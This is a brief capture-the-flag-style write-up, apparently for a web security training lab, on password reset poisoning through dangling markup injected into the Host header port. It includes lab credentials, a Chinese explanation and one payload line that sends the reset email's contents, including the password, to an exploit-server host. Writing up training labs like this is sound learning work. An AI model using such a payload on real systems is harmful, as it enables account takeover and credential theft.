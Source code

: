 # Lab: Password reset poisoning via dangling markup

This lab is vulnerable to password reset poisoning via dangling markup. To solve the lab, log in to Carlos's account.

You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server.

## HTTP Host Header Attack
* 這一題弄了滿久的，簡單來說就是要拿到 email 中的 password，可以發現 host 後面如果給 port 在 raw email 會有相應的 value，這個時候就可以用 XSS 拿到 password，因為有 antivirus software，所以會點擊所有的連結，因此需要構造一個 payload 可以把後面的 data 用 `<a>` 包著發送出去，這樣就可以拿到 password 了
```
payload = 'ac281f711eb5f8c5c0ea27f200f800a4.web-security-academy.net:'<a href="https://exploit-ac131fac1eb0f8f7c07e27ae011e00aa.web-security-academy.net/?'
```